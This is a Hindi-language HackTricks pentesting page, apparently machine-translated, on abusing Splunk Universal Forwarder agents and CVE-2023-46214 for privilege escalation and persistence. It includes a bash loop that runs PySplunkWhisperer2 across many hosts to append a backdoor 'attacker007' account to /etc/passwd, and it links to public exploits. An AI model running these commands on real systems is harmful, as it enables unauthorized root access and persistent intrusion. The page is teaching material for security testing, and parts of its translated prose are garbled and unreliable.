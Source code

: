 # स्प्लंक LPE और स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **पीआर जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

यदि आप किसी मशीन को **आंतरिक** या **बाह्य रूप से जाँचते** समय **Splunk चल रहा है** (पोर्ट 8090), और यदि आपके पास **किसी वैध क्रेडेंशियल्स** का ज्ञान है, तो आप **Splunk सेवा का दुरुपयोग** करके **उस उपयोगकर्ता के रूप में एक शैल** को **चला सकते हैं** जो Splunk चला रहा है। यदि यह root द्वारा चलाया जा रहा है, तो आप विशेषाधिकारों को root के रूप में उन्नत कर सकते हैं।

इसके अलावा, यदि आप **पहले से ही root हैं और Splunk सेवा केवल localhost पर सुन रही नहीं है**, तो आप Splunk सेवा से **पासवर्ड** फ़ाइल **चुरा सकते हैं** और **पासवर्ड क्रैक** कर सकते हैं, या उसमें **नए क्रेडेंशियल्स जोड़ सकते हैं**। और मेजबान पर स्थिरता बनाए रख सकते हैं।

पहली छवि में नीचे आप देख सकते हैं कि एक Splunkd वेब पृष्ठ कैसा दिखता है।

## स्प्लंक यूनिवर्सल फॉरवर्डर एजेंट शोषण सारांश

**अधिक विवरण के लिए पोस्ट देखें [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)**

**शोषण अवलोकन:**
Splunk यूनिवर्सल फॉरवर्डर एजेंट (UF) को लक्षित करने वाला एक शोषण अटैक अटैकर्स को एजेंट पासवर्ड के साथ सिस्टम पर विचित्र कोड को निषेधित करने की अनुमति देता है, जिससे पूरी नेटवर्क को कंप्रमाइज किया जा सकता है।

**मुख्य बिंदु:**
- UF एजेंट आने वाली कनेक्शनों या कोड की प्रामाणिकता की पुष्टि नहीं करता है, जिससे अनधिकृत कोड निषेध करने के लिए विकल्पशील हो जाता है।
- सामान्य पासवर्ड प्राप्ति विधियों में उन्हें नेटवर्क निर्देशिकाओं, फ़ाइल साझाकरण या आंतरिक प्रलेखन में ढूंढना शामिल है।
- सफल शोषण संक्रमित होस्ट पर SYSTEM या रूट स्तर की पहुंच, डेटा निकासीकरण और आगे की नेटवर्क घुसपैठ की ओर ले जा सकता है।

**शोषण क्रियान्वयन:**
1. हमलावर UF एजेंट पासवर्ड प्राप्त करता है।
2. एजेंट्स को कमांड या स्क्रिप्ट भेजने के लिए Splunk API का उपयोग करता है।
3. संभावित क्रियाएँ फ़ाइल निकासी, उपयोगकर्ता खाता प्रबंधन और सिस्टम कंप्रमाइज शामिल हैं।

**प्रभाव:**
- प्रत्येक होस्ट पर SYSTEM/root स्तर की अनुमतियों के साथ पूरी नेटवर्क कंप्रमाइज।
- पकड़ने से बचने के लिए लॉगिंग को निषेधित करने की संभावना।
- बैकडोअर्स या रैंसमवेयर की स्थापना।

**शोषण के लिए उदाहरण कमांड:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
## Splunk LPE और Persistence

**उपयोगी सार्वजनिक उत्पाद:**
* [https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)
* [https://www.exploit-db.com/exploits/46238](https://www.exploit-db.com/exploits/46238)
* [https://www.exploit-db.com/exploits/46487](https://www.exploit-db.com/exploits/46487)

## Splunk क्वेरी का दुरुपयोग

**अधिक विवरण के लिए पोस्ट देखें [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

**CVE-2023-46214** ने **`$SPLUNK_HOME/bin/scripts`** में एक विचित्र स्क्रिप्ट अपलोड करने की अनुमति दी और फिर बताया कि खोज क्वेरी **`|runshellscript script_name.sh`** का उपयोग करके वहाँ संग्रहित **स्क्रिप्ट** को **क्रियान्वित** करना संभव था।
